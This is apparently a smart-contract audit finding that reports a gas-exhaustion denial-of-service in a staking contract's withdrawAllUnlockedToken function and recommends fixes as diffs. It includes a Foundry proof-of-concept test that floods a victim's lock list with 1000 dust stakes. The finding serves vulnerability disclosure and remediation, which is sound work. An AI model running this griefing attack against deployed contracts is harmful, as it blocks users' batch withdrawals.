 Rare Aqua Cormorant

high

# [H-01] Unbounded Loop in `Lock::withdrawAllUnlockedToken` Could Lead to Griefing/DoS Attack

## Summary 
Anyone can `stake` on behalf of users, and since the `stake` function has no minimum amount requirement, a malicious actor can deposit countless dust amounts on behalf of a user. This could prevent the user from calling `withdrawAllUnlockedToken` due to high gas costs.

## Vulnerability Detail
The `withdrawAllUnlockedToken` function contains two unbounded loops. The first loop uses `locklist::lockCount` of the user, which can be manipulated by anyone by simply staking dust amounts. The second loop uses the length of `locklist::getLocks`, which can also be manipulated through dust transactions.
[link to code](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L417)
```javascript
function withdrawAllUnlockedToken() external override nonReentrant {
        uint256 lockCount = locklist.lockCount(msg.sender); // Fetch the total number of locks for the caller.
        uint256 page;
        uint256 limit;
        uint256 totalUnlocked;
@>      while (limit < lockCount) {
            LockedBalance[] memory lockedBals = locklist.getLocks(
                msg.sender,
                page,
                lockCount
            ); // Retrieves a page of locks for the user.
@>          for (uint256 i = 0; i < lockedBals.length; i++) {
                if (
                    lockedBals[i].unlockTime != 0 &&
                    lockedBals[i].unlockTime < block.timestamp
                ) {
                    totalUnlocked += lockedBals[i].amount; // Adds up the amount from all unlocked balances.
                    locklist.removeFromList(msg.sender, lockedBals[i].lockId); // Removes the lock from the list.
                }
            }

            limit += 10; // Moves to the next page of locks.    
            page++;
        }

        IERC20(stakingToken).safeTransfer(msg.sender, totalUnlocked); // Transfers the total unlocked amount to the user.
        emit WithdrawAllUnlocked(msg.sender, totalUnlocked); // Emits an event logging the withdrawal.
    }
```
## Impact
Although users won't lose access to their funds due to the option of withdrawing positions one by one using `Lock::withdrawUnlockedTokenById`, the `withdrawAllUnlockedToken` function becomes unusable for users under attack.

## Code Snippet
To demonstrate the concept, add the following tests to the `Withdraw.t.sol` test suite:
- Case 1: Gas cost of staking and withdrawing all for User 1 without a DoS attack: `380,930` gas
```javascript
function testWithdrawAllforUser1() public {
        //gas cost:380930
        vm.prank(user1);
        lock.stake(100e18, user1, 0);
        LockedBalance[] memory user1Locks = lockList.getLocks(user1, 0, 10);
        LockedBalance memory user1Lock = lockList.getLockById(
            user1,
            user1Locks[0].lockId
        );
        vm.prank(user1);
        lock.exitLateById(user1Lock.lockId);
        vm.warp(block.timestamp + 30); // Simulate time passage

        // Verify if the tokens are correctly unlocked and can be withdrawn
        uint256 user1BalanceBefore = _stakingToken.balanceOf(user1);
        vm.prank(user1);
        lock.withdrawAllUnlockedToken();
        uint256 user1BalanceAfter = _stakingToken.balanceOf(user1);
        assertEq(user1BalanceBefore + 100e18, user1BalanceAfter);
```
- Case 2: Gas cost of staking and withdrawing all for User 1 during a DoS attack:
    - Cost of attack (before User 1 intends to call `withdraw`): `181,814,752` gas
    - Cost of test: `4,842,572,592` gas
    - Cost of User 1 withdrawal = Cost of test - Cost of attack = `4,660,757,840` gas
  
```javascript
function testWithdrawAllDOS() public {
        //user 1 deposits
        vm.prank(user1);
        lock.stake(100e18, user1, 0);
        LockedBalance[] memory user1Locks = lockList.getLocks(user1, 0, 10);
        LockedBalance memory user1Lock = lockList.getLockById(
            user1,
            user1Locks[0].lockId
        );

        //user 2 deposits dust txs on behalf of user 1
        for (uint256 k; k < 1000; k++) {
            uint64 counter = 1;
            vm.prank(user2);
            lock.stake(1, user1, 0);
        }
        vm.warp(block.timestamp + 10);
        // cost of attack gas: 181814752
        // user1 intends to withdraw his deposit using withdrawAll
        vm.warp(block.timestamp + 30);
        vm.prank(user1);
        lock.exitLateById(user1Lock.lockId);
        vm.warp(block.timestamp + 30); // Simulate time passage

        // Verify if the tokens are correctly unlocked and can be withdrawn
        uint256 user1BalanceBefore = _stakingToken.balanceOf(user1);
        vm.prank(user1);
        lock.withdrawAllUnlockedToken();
        uint256 user1BalanceAfter = _stakingToken.balanceOf(user1);
        assertEq(user1BalanceBefore + 100e18, user1BalanceAfter);
        //gas cost 4,842,572,592 =: 4,842,572,592 - 181,814,752 = 4,660,757,840
        //which is way bigger than normal gas cost //gas cost:380930
    }
```

## Tool used

Manual Review, Foundry test suit

## Recommendation
To fix this issue:
1. Remove the while loop completely because it has no effect on contract functionality and only loops empty lock IDs after first iteration. 
```diff
function withdrawAllUnlockedToken() external override nonReentrant {
        uint256 lockCount = locklist.lockCount(msg.sender); // Fetch the total number of locks for the caller.
        uint256 page;
        uint256 limit;
        uint256 totalUnlocked;
-       while (limit < lockCount) {
            LockedBalance[] memory lockedBals = locklist.getLocks(
                msg.sender,
                page,
                lockCount
            ); // Retrieves a page of locks for the user.
            for (uint256 i = 0; i < lockedBals.length; i++) {
                if (
                    lockedBals[i].unlockTime != 0 &&
                    lockedBals[i].unlockTime < block.timestamp
                ) {
                    totalUnlocked += lockedBals[i].amount; // Adds up the amount from all unlocked balances.
                    locklist.removeFromList(msg.sender, lockedBals[i].lockId); // Removes the lock from the list.
                }
            }

-           limit += 10; // Moves to the next page of locks.    
-           page++;
-       }

        IERC20(stakingToken).safeTransfer(msg.sender, totalUnlocked); // Transfers the total unlocked amount to the user.
        emit WithdrawAllUnlocked(msg.sender, totalUnlocked); // Emits an event logging the withdrawal.
    }
```
2. Set a minimum stake amount to stop attackers from making DoS attacks possible.
```diff
function _stake(
        uint256 amount,
        address onBehalfOf,
        uint256 typeIndex,
        bool isRelock
    ) internal whenNotPaused {
-       if (typeIndex >= lockPeriod.length || amount == 0)
+       if (typeIndex >= lockPeriod.length || amount <= MIN_DEPOSIT_AMOUNT)
            revert InvalidAmount();
        .
        .
        .
    }

```